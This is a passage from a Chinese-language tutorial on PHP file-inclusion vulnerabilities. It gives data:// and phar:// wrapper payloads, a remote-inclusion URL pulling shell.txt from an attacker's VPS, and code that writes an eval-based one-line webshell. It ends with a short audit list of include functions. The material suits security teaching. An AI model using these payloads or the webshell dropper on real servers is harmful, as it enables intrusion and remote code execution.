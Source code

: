 ```bash
#1.data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>

#2.data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

#### phar://

phar://协议与zip://类似，同样可以访问zip格式压缩包内容

```bash
http://127.0.0.1/include.php?file=phar://C:/phpStudy/PHPTutorial/WWW/phpinfo.zip/phpinfo.txt
```

**利用条件 `PHP > 5.3`**

要想使用Phar类里的方法，必须将`phar.readonly`配置项配置为0或Off

利用 phar 协议可以拓展 php 反序列化漏洞攻击面

## 远程文件包含(RFL)

服务器通过 PHP 的特性（函数）去包含任意文件时，由于要包含的这个文件来源过滤不严格，

从而可以去包含一个恶意文件，攻击者就可以远程构造一个特定的恶意文件达到攻击目的。

### 漏洞利用

**条件：**`php.ini`中开启`allow_url_include`、`allow_url_fopen`选项。

**1、远程包含Webshell**

```bash
?arg=http://攻击者的VPS/shell.txt
#会在网站目录生成名为 shell.php 的一句话木马
```

**shell.txt内容为：**

```php
<?php
    fputs(fopen('./shell.php','w'),'<?php @eval($_POST[123]) ?>');
?>
```

### 代码审计

**文件包含用到的函数**

```php
include()		//使用此函数，只有代码执行到此函数时才将文件包含进来，发生错误时只警告并继续执行。
inclue_once()	//功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。

require()		//使用此函数，只要程序执行，立即调用此函数包含文件发生错误时，会输出错误信息并立即终止程序。
require_once()	//功能和前者一样，区别在于当重复调用同一文件时，程序只调用一次。
```
